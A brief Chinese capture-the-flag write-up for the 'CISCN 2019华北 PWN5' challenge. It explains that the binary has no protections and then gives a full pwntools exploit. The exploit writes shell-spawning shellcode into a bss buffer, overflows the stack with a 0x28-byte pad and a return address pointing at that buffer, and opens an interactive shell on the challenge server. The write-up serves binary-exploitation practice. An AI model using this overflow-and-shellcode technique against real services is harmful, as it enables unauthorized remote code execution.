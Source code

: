 # [CISCN 2019华北]PWN5

这里是一个nss中的题目我们查看保护和ida

![image-20250408190450958](./../images/image-20250408190450958.png)

![image-20250408190531484](./../images/image-20250408190531484.png)

这里我们查看到他的保护什么都没有开并且知道在第一次读入的时候可以读入0x64大小的一个数据因此在这里我们就可以编写一个shellcode而由于读入的长度够大因此我们可以使用shellcode的工具来进行一个生成

并且我们查看name的位置

![image-20250408190817809](./../images/image-20250408190817809.png)

从这里可以知道到shellcode读取的地方为一个bss段因此我们要进行一个跳转使得在stack中运行着个程序因此我们exp为

```python
from pwn import *

# io =process("/home/fofa/pwn5")
elf = ELF("/home/fofa/pwn5")
io = remote("node4.anna.nssctf.cn",28246)
context(os="linux",arch="amd64",log_level="debug")
io.recvuntil(b"name")
shellcode = asm(shellcraft.sh())
io.send(shellcode)
io.recvuntil(b"me?")
payload = cyclic(0x28)+p64(0x0601080)
io.sendline(payload)
io.interactive()

```

